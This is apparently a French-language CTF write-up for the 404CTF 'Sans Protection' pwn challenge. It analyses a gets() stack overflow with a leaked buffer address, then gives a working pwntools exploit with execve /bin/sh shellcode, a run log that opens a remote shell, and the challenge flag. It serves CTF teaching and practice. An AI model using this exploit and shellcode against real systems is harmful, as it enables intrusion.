

## PWN / Sans Protection

<p align="center">
  
</p>


### Look around

Les interactions avec le challenge sont assez simples :
- le serveur nous donne ce qui semble être une adresse
- lit un input
- quitte

```bash
$nc challenge.404ctf.fr 31720
Montrez-nous de quoi vous êtes capable !
Cadeau : 0x7ffd54f49aa0
AAAAAA
```

### Analyse statique

Le challenge nous permet de télécharger le binaire à exploiter sur le serveur.

En regardant rapidement le code, on trouve la fonction principale qui correspond au workflow précédent :

```c
int main(void)

{
  char user_input [64];

  setvbuf(stdout,(char *)0x0,2,0);
  puts(&DAT_004006f8);
  printf("Cadeau : %p\n",user_input);
  gets(user_input);
  return 0;
}
```

On remarque que l'adresse leakée est celle de notre input (sur la stack).
Par ailleurs, il n'y a pas de contrôle sur la taille de l'input qui va être stocké dans un buffer de 64 octets

Niveau protection, rien de particulier :

```bash
$ checksec fragile
[*] '/home/maskott/github/ctf_404_2022/pwn/sans_protection/fragile'
   Arch:     amd64-64-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX disabled
   PIE:      No PIE (0x400000)
   RWX:      Has RWX segments
```

Il reste à supposer que l'ASLR est activée sur le serveur, ce qui est confirmé en relançant deux fois le challenge, l'adresse du leak change.


### Exploit

Avec tout ça, on conclut rapidement que c'est un bon vieux buffer overflow :
- remplir le buffer
- écraser la sauvegarde de RIP sur la stack (avec une adresse pointant sur notre shellcode)
- poser un shellcode sur la stack


J'ai fait vite, donc pour être sûr, je remplis le buffer puis j'écris 4 fois l'adresse du shellcode pour écraser saved RBP, saved RIP , divers ...

Ce qui donne le code suivant (merci [Voydstack](https://github.com/voydstack/shellcoding/tree/master/x64/shell) pour le shellcode):

```python
    log.success("Leak : " + buff_add.decode())

    shell_addr = int(buff_add.decode(), 16) + 64 + 4 * 8
    log.success("shell_addr : " + hex(shell_addr))

    payload = b"\x90" * 64
    payload += p64(shell_addr) * 4
    payload += b"\x48\x31\xf6\x56\x5a\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\x6a\x3b\x58\x0f\x05"

    r.send(payload + NL)
    r.interactive()
```

```bash
$ python3 fragile.py REMOTE
[*] '/home/maskott/github/ctf_404_2022/pwn/sans_protection/fragile'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to challenge.404ctf.fr on port 31720: Done
b'Montrez-nous de quoi vous \xc3\xaates capable !\nCadeau : 0x7ffc0b0cc220\n'
[+] Leak : 0x7ffc0b0cc220
[+] shell_addr : 0x7ffc0b0cc280
[*] Switching to interactive mode
$ cat flag.txt
404CTF{V0U5_3735_Pr37_P0Ur_14_Pr0CH41N3_M15510N}
```
